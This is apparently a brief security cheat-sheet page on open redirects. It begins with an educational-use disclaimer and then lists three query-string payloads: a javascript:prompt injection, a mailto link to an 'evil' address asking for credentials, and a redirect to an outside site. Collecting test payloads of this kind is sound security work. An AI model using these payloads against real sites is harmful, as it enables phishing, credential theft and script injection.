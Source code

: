 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Open Redirect
==============

/?SomeParam=https://TheDomainYouAreOne&TheirParam=javascript://prompt(1)

/?SomeParam=https://TheDomainYouAreOne&TheirParam=mailto://SomeoneEvil@SOMEDOMAIN?Subject=How about that!%26Body=Please send me credentials

/?SomeParam=https://TheDomainYouAreOne&TheirParam=https://www.google.com
